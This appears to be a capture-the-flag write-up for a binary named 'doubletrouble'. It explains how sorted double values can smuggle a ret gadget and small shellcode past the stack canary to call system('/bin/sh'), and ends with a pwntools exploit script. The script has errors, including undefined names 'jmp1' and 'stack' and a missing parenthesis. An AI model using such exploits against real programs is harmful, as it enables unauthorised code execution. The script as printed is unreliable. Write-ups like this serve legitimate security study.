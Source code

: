 If we trigger the bug when `how long` equals to 64, the program will report that the stack is smashed. Since the ret address is 24 bytes away from our array, we need to extend our array by three (one double uses 8 bytes). During sorting, the stack address will be sorted to extremely top since it's always begin with `7f` or `ff`. Thus, we have to jump to a *ret* in the program. The lower part of a double number can be used as stack return address:
```
+-------------+  a double value   +----------+
|          e.g. 0x1234123443214321           |
+-------------------+-------------------+----+
|  higher 4 bytes   |     lower 4 bytes      |
+--------------------------------------------+
|  ret address      |     ret address2       |
+-------------------+----- ------------------+
// We can controll the first 8 bytes to be a relative large number to make the value stay at the last of our array
```

After poping *EAX* to stack address, we can execute shellcode. Since `system` and `/bin/sh` is already in the binary, we can simply call system address and use the `/bin/sh` as address. The problem is the array will switch the stack cookie, how can we make sure we can pass the security shellcode. First, we need to make our shellcode extremely small to stay at the top of the array. Thus, we appends `\xfe` and `\xfc` at the beginning. Our shellcode will do a jump to skip the `\xfe` and `\xfc` header to perform a proper execution.

And the remaining padding, we need to make sure it is as small as possible, but larger than shellcode. Thus, we use `0xf800000000000000` as our value. After sorting, we can trigger the ROP chain. Since canary is random, the exploit might fail several times.

Exploit:
```python
from pwn import *
from struct import *
import re
import base64

context.arch = 'i386'

// A function to convert our data to double format
def d64(double):
	return "%.20g" % unpack("<d", double)[0]


r = process("doubletrouble")
r.recvuntil("0x")
stack_addr = int(r.recv(8), 16)

r.sendlineafter("long: ", str(64))
pad = d64(p64(0xf800000000000000))
jmp = 0x080498A4ffffffff  # ret gadget
jmp2 = 0x0806000000000000 + stack  # addr of shellcode

shellcode1 = d64(asm("push 0x804A12D; jmp $+3").ljust(8, '\xfe'))
shellcode2 = d64(asm("call dword ptr [0x804BFF0]").ljust(8, '\xfc'))

r.sendline(shellcode1)
r.sendline(shellcode2)
for i in range(0, 2):
    r.sendline(pad)

r.sendline(str(-99))
r.sendline(d64(p64(jmp1))
r.sendline(d64(p64(jmp2)))

for i in range(0, 64 - 7):
    r.sendline(pad)
```